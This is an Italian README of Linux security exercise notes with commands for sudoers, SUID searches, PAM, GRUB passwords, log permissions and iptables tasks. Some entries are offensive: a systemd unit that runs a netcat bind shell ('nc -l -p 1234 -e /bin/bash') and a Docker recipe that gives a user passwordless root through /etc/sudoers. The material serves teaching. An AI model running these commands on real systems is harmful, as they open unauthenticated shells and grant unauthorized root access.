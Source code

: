 # useful-links-cysec
- [here document](https://thelinuxcode.com/what-is-cat-eof-bash-script/)
- [regex cheatsheet](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Guide/Regular_expressions/Cheatsheet)
- [sed guide](https://www.gnu.org/software/sed/manual/sed.html)
- [awk guide](https://www.gnu.org/software/gawk/manual/gawk.html)
----
- Configura sudo affinchè un utente possa eseguire solo un comando specifico (e.s: nmap)
  - ```bash
    #/etc/sudoers.d/buonhobo

    buonhobo ALL = /usr/bin/nmap
    ```
  - [sudoers guide](https://www.digitalocean.com/community/tutorials/how-to-edit-the-sudoers-file)
- Configura sudo affinchè un utente possa eseguire solo un comando specifico ma senza un parametro (e.s: si puo eseguire nmap ma non nmap -p). Nota: si possono mettere espressioni regolari nel file sudoers
  - ```bash
    #/etc/sudoers.d/buonhobo

    buonhobo ALL = /usr/bin/nmap, !/usr/bin/nmap -p
    ```
  - [sudoers regex](https://www.sudo.ws/posts/2022/03/sudo-1.9.10-using-regular-expressions-in-the-sudoers-file/)
- Cercare tutti gli eseguibili con SUID
  - ```bash
    find / -perm -4000 -type f -ls
    ```
  - ```bash
    find / -perm -u=s -type f -ls
    ```
  - [find cheatsheet](https://cheat.sh/find)
- Cercare tutti gli eseguibili con GUID
  - ```bash
    find / -perm -2000 -type f -ls
    ```
  - ```bash
    find / -perm -g=s -type f -ls
    ```
- Creare uno unit file di Systemd per permettere una shell aperta a tutti sulla rete (netcat in modalità listen con il processo /bin/bash) e provare a connettersi dalla propria macchina usando netcat
  - ```bash
    #/etc/systemd/system/netcat.service

    [Unit]
    Description=Netcat shell

    [Service]
    # connect using `nc localhost 1234`
    ExecStart=/bin/nc -l -p 1234 -e /bin/bash

    [Install]
    WantedBy=default.target
    ```
  - [systemd arch wiki](https://wiki.archlinux.org/title/Systemd#Writing_unit_files)
  - [systemd manual](https://www.freedesktop.org/software/systemd/man/latest/systemd.unit.html)
- Installare e configurare un modulo PAM per richiedere caratteristiche minime alla password (min 8 caratteri, maiuscole, minuscole e simboli)
  - ```bash
    #/etc/pam.d/common-password <- per forza qui, il file esiste già e va modificato con sed

    #...
    password requisite pam_pwquality.so retry=3 minlen=8 ucredit=-1 lcredit=-1 dcredit=-1 ocredit=-1
    #...
    ```
  - [pam guide](https://www.tecmint.com/configure-pam-in-centos-ubuntu-linux/)
  - [cracklib guide](https://linux.die.net/man/8/pam_cracklib)
- Imposta una password a GRUB così da non permettere l'avvio del sistema operativo con parametri del kernel non standard
  - ```bash
    # This sets a superuser root with password ciao
    password=ciao
    hash=$(echo -e "$password\n$password" | grub-mkpasswd-pbkdf2 | awk '/grub/ {print $NF}')
    cat << EOF >> /etc/grub.d/40_custom

    set superusers='root'
    password_pbkdf2 root $hash
    EOF

    # This makes the boot entry unrestricted
    # So that the password is only needed for changing it
    # And not for booting the system
    sed -i '0,/^CLASS="/ {//s/"$/ --unrestricted"/}' /etc/grub.d/10_linux

    # This applies the changes
    sudo update-grub
    ```
    - [stack overflow question](https://superuser.com/questions/488275/grub-2-password-protection-in-debian)
- Rendi la cartella /var/log leggibile solo da root
  - ```bash
    # I permessi diventano rwx--x--x
    # Questo permette agli altri di accedere ai file dentro /var/log se hanno il permesso
    # Ma non permette di vedere i file dentro /var/log
    chmod 711 /var/log
    # Si può mettere 700 per dare permesso solo a root
    # E si può usare -R per modificare ricorsivamente i permessi
    ```
- Configura un utente per poter fare cat dei logs ma non essere amministratore (va configurato sudoers in modo opportuno)
  - ```bash
    #/etc/sudoers.d/buonhobo

    # This allows running cat inside /var/log but does not allow using .. to access other directories
    buonhobo ALL = /usr/bin/cat ^/var/log/.+$, !/usr/bin/cat ^/var/log/.*(\.\.).*$
    ```
- Trova tutti i processi che hanno un file descriptor aperto dentro la cartella /var/log (il comando lsof tornerà comodo)
  - ```bash
    lsof +D /var/log
    ```
- Usa docker per effettuare un privilege escalation
  - ```bash
    # This adds buonhobo to sudo group
    docker run -v /etc:/ciao alpine sh -c "sed '/sudo/s/[a-z,]*$/buonhobo/' -i /ciao/group"

    # This lets buonhobo use sudo for everything with no password
    docker run -v /etc:/ciao alpine sh -c "echo 'buonhobo ALL=(ALL) NOPASSWD: ALL' >> /ciao/sudoers"
    ```
- Cercare se esiste un qualche file all'interno della home di un utente che sia scrivibile da tutti gli utenti
  - ```bash
    find /home/ -type f -perm -o=w
    ```
- Cercare se esiste una cartella all'interno della home di un utente che sia scrivibile da tutti gli utenti
  - ```bash
    find /home/ -type d -perm -o=w
    ```
- Creare un utente con la password che scade ogni giorno
  - ```bash
    # This creates a user with a password that expires every day
    sudo useradd -m buonhobo
    chage -M 1 buonhobo
    ```
  - [chage cheatsheet](https://cheat.sh/chage)
  - [/etc/shadow manual](https://linux.die.net/man/5/shadow)
----
Per tutta la roba iptables basta consultare il [manuale](https://linux.die.net/man/8/iptables) e la [guida di DigitalOcean](https://www.digitalocean.com/community/tutorials/iptables-essentials-common-firewall-rules-and-commands).
Meglio ricordarsi quando si è in ssh di permettere le connessioni ESTABLISHED e RELATED per non venire disconnessi.
Altra cosa buona è permettere il traffico in loopback

- Imposta Iptables affinchè sia permesso l'accesso alla macchina solo via SSH (TCP port 22)
- Imposta Iptables affinchè sia permesso l'accesso alla macchina solo via SSH (TCP port 22) dall'IP 1.2.3.4 e ad un webserver da qualunque IP (TCP port 80 e 443)
- Imposta Iptables affinchè sia bloccato tutto il traffico Internet sulla macchina (gli utenti non possono navigare) ma sia funzionante il webserver (TCP port 80 e 443)
- Imposta Iptables affinchè sia permesso l'accesso alla macchina solo via SSH (TCP port 22) e ad un webserver (TCP port 80 e 443)
